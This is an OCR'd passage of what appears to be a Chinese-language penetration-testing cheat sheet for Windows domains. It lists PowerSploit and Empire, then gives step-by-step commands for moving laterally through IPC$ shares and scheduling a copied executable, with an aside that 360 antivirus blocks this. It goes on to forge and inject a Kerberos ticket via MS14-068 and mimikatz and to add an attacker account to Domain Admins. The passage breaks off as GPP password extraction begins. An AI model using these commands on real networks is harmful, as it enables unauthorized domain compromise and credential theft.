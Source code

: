 > > https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
>
> 针对ps的Empire
>
> > https://github.com/EmpireProject/Empire
>
> ### ipc$
>
> > D:>net use \\\192.168.1.254\c$ "pwd" /user:user   //连接192.168.1.254的IPC$共享，用unc路径
> >
> > D:>copy srv.exe \\\192.168.1.254\c$ //复制本地 srv.exe 到C根目录
> >
> > D:>net time \\\192.168.1.254     //查时间
> >
> > D:>at　\\\192.168.1.254 10:50 srv.exe //用at命令在10点50分启动 srv.exe (这里360会拦截)
> >
> > D:>net use \\\192.168.1.254\c$ /del 
>
> ### ms14-068 Kerberos 漏洞利用：
>
> 生成 TGT：用于伪造
>
> > whoami /all  获得：用户@ 域名、用户 sid、域主机
>
> > python ms14068.py -u admin@xxx.com -p password -s sid -d dc.xxx.com
> >
> > ms14068.exe -u admin@xxx.com -p password -s sid -d dc.xxx.com
>
> 会生成 TGT_admin@xxx.com.ccache
>
> 注入 TGT：
>
> > klist
> >
> > klist purge 清除所有凭证，等一会在执行下列命令
>
> 写入内存:
>
> > mimikatz.exe "kerberos::ptc c:\TGT_admin@xxx.com.ccache" 
>
> 若成功
>
> > dir \\dc.xxx.com\c$
> >
> > net user admin xxxxx@password /add /domain
> >
> > net group "Domain Admins" admin /add /domain
>
> msf 的模块 ``ms14_048_kerberos_checksum`` 也可以检测
>
> 工具：
>
> > https://www.t00ls.net/viewthread.php?tid=28207&from=favorites
> >
> > https://github.com/gentilkiwi/kekeo
>
> ### GPP 漏洞利用
>
> win2008 增加，一般域用户都可访问敏感文件
>
> 密码存在 SYSCOL 目录下:
>
> Groups.xml, 这个文件是域管通过 GPP 设置或修改本地密码留下的
>